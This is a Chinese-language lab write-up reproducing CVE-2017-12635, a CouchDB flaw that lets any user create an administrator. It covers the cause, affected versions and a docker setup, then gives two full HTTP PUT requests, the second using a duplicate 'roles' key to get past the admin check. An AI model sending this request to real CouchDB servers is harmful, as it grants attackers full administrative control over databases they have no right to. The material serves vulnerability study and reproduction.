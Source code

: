 ```yaml
---
title: "（CVE-2017-12635）Couchdb 垂直权限绕过漏洞"
id: zhfly2856
---
```


# （CVE-2017-12635）Couchdb 垂直权限绕过漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

### 环境搭建

```
docker-compose build
docker-compose up -d 
```

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.0-sec.org:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90 `{

“type”: “user”,

“name”: “vulhub”,

“roles”: ["_admin"],

“password”: “vulhub”

}` 
```

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![image](../img/544978315043e465623a152a9f9c80dd.png)

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: www.0-sec.org:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108 `{

“type”: “user”,

“name”: “vulhub”,

“roles”: ["_admin"],

“roles”: [],

“password”: “vulhub”

}` 
```

成功创建管理员，账户密码均为`vulhub`：

![image](../img/f0aa4848a7311e290d7974a09a818c80.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image](../img/ef6de98482ce4e71c86abc6b94fc1100.png)

## 参考链接

> https://vulhub.org/#/environments/couchdb/CVE-2017-12635/